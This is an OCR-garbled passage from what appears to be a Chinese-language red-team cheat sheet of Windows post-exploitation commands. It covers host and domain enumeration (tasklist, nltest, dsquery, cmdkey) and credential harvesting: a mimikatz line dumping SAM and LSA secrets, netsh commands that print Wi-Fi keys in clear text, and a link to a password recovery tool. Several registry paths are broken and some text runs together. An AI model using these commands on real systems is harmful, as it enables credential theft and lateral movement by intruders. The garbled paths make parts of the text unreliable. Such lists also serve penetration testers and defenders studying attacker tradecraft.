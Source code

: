 >
>   tasklist /svc
>
>   tasklist /S ip /U domain\username /P /V 查看远程计算机 tasklist
>
>   net localgroup administrators && whoami 查看当前是不是属于管理组
>
>   netstat -ano
>
>   nltest /dclist:xx  查看域控
>
>   whoami /all 查看 Mandatory Label uac 级别和 sid 号
>
>   net sessoin 查看远程连接 session (需要管理权限)
>
>   net share   共享目录
>
>   cmdkey /l  查看保存登陆凭证
>
>   echo %logonserver%  查看登陆域
>
>   spn –l administrator spn 记录
>
>   set  环境变量
>
>   dsquery server - 查找目录中的 AD DC/LDS 实例
>
>   dsquery user - 查找目录中的用户
>
>   dsquery computer 查询所有计算机名称 windows 2003
>
>   dir /s *.exe 查找指定目录下及子目录下没隐藏文件
>
>   arp -a

发现远程登录密码等密码 netpass.exe  下载地址：

>   https://www.nirsoft.net/utils/network_password_recovery.html获取 window vpn 密码：

>   mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit  wifi 密码：

>   netsh wlan show profile 查处 wifi 名
>
>   netsh wlan show profile WiFi-name key=clear 获取对应 wifi 的密码ie 代理

>   reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet
>
>   Settings" /v ProxyServer
>
>   reg query "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet Settings"pac 代理

>   reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet
>
>   Settings" /v AutoConfigURL  //引子 t0stmailpowershell-nishang

